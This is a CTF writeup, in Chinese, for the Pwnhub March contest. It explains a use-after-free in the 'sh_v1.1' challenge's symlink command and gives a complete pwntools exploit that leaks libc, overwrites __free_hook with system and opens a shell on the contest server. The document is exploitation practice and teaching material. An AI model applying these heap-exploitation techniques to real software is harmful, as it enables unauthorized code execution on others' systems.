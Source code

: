 ---
title: 「PWN」【Pwnhub 三月公开赛】 Pwn Writeup WP 复现
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---

## sh_v1.1
题目实现了 shell 的一些功能，不过这些我实在没看懂逻辑，不过是混淆所以也无所谓。

<!--truncate-->
![image-20230311120537451](https://cdn.novanoir.moe/img/image-20230311120537451.png)

在 `ln src dest` 这个命令中实现了软连接，不同于 `cp` 的是它直接把 `pointer_arr` 复制了过来，而不是 `malloc` 之后再 `strncpy` 拷贝，在 `rm` 原文件的时候也并没有同时删除这个软连接文件，导致可以实现 UAF



版本是 2.31，直接 Unsorted bin leak libc 后 gedit 打 freehook 即可

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

# sh = process(['./sh_v1.1'])
sh = remote("121.40.89.206", 34883)
# libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

for i in range(9):
    sh.sendlineafter(b'>>>>', f'touch {i}'.encode())
    sh.sendline(chr(i+ord('a'))*0x20)

sh.sendlineafter(b'>>>>', f'ln 1 9'.encode())  # 9 <--> 1
sh.sendlineafter(b'>>>>', f'ln 2 10'.encode())  # 10 <--> 2

for i in range(8,-1,-1):
    sh.sendlineafter(b'>>>>', f'rm {i}'.encode())


sh.sendlineafter(b'>>>>', f'cat 9'.encode())

libc_base = u64(sh.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) - 96 - 0x10 - 0x1ebb70
__free_hook = libc_base + 0x01eeb28
system_addr = libc_base + 	0x055410
print("libc_base >>", hex(libc_base))

sh.sendlineafter(b'>>>>', f'gedit 10'.encode())
# gdb.attach(sh)
# pause(4)
sh.sendline(p64(__free_hook) + p64(0))

sh.sendlineafter(b'>>>>', f'touch 11'.encode())
sh.sendline(b'/bin/sh')

sh.sendlineafter(b'>>>>', f'touch 12'.encode())
sh.sendline(p64(system_addr))

sh.sendlineafter(b'>>>>', f'rm 11'.encode())
sh.interactive()
```

## kheap
详见 <Link to='/blog/2023/03/18/_内核题目的第一次尝试'> 内核题目的第一次尝试 </Link>